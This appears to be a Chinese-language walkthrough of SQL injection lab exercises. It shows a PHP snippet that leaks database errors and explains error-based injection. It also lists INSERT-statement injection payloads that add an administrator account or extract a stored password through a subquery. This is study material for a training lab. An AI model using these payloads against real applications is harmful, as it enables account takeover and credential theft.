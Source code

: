 ```PHP
			print_r(mysql_error());			                 //输出报错信息
			echo "<br><br>";
			echo '<img src="../images/flag.jpg"  />';
			echo "<br>";
			
			}
		else
			{
			echo '<font color= "#0000ff" font size="3">';
			//echo "Try again looser";
			print_r(mysql_error());        
			echo "</br>";			
			echo "</br>";
			echo '<img src="../images/slap.jpg"   />';	
			echo "</font>";  
			}

```

因为输出了报错信息,所以可以报错注入

此外,INSERT参数可控还有以下注入方式

### inert注入

#### 1.注入点位于tbl_name

```
原句：insert into {tbl_name}  values(2,2,2,2);

注入：insert into {wp_user values(2,'newadmin','newpasswd')#}  values(2,2,2,2);
```



#### 2.注入点位于values

```
INSERT INTO wp_user VALUES(1,1,{xxxxx});

INSERT INTO wp_user VALUES(1,1,1),(2,1,"aaaaa");                                                   //第二个字段若为管理员标识符,便可以添加管理员

INSERT INTO wp_user VALUES(1,1,1),(2,2,(select pwd from wp_user limit 1));    //最后一个字段可以显示
```



# less 20-22

关于cookie的,会把cookie存入数据库,然后再次访问时取出

# less 23

